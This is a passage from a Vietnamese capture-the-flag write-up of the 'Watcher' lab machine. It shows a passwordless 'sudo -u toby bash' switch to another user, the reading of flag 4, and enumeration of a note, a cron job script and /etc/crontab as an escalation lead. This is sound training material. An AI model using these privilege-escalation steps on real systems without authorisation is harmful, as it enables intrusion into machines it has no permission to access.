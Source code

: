 Điều này có nghĩa là tôi có thể chuyển sang user **toby** mà không cần khai báo password

```python
www-data@watcher:/tmp$ sudo -u toby bash
sudo -u toby bash
id
uid=1003(toby) gid=1003(toby) groups=1003(toby)
```

Và tôi có flag số 4

```python
cd /home/toby
cat flag_4.txt
FLAG{chad_lifestyle}
```

### Flag 5

Ở user **toby** tôi có thêm 1 file txt và 1 folder khác

```python
id
uid=1003(toby) gid=1003(toby) groups=1003(toby)
ls
flag_4.txt
jobs
note.txt
```

`note.txt`

```python
cat note.txt
Hi Toby,

I've got the cron jobs set up now so don't worry about getting that done.

Mat
```

`/jobs`

```python
ls jobs
cow.sh
cat jobs/cow.sh
#!/bin/bash
cp /home/mat/cow.jpg /tmp/cow.jpg
```

Kiểm tra crontab

```python
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
```